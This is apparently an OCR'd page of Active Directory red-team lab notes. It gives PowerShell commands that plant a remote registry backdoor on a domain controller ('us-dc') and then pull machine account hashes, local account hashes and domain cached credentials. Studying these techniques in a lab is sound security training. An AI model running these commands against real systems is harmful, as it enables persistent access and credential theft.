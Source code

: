 On remote machine, remove the permissions:

```
Set-RemotePSRemoting -SamAccountName studentuser1 -
ComputerName us-dc -Remove
```


##### Security Descriptors -Remote Registry

Using RACE or DAMP toolkit, with admin privs on remote machine

```
Add-RemoteRegBackdoor -ComputerName us-dc -Trustee
studentuser1 -Verbose
```

As studentuser1, retrieve machine account hash:

```
Get-RemoteMachineAccountHash -ComputerName us-dc -Verbose
```

Retrieve local account hash:

```
Get-RemoteLocalAccountHash -ComputerName us-dc -Verbose
```

Retrieve domain cached credentials:

```
Get-RemoteCachedCredential -ComputerName us-dc -Verbose
```


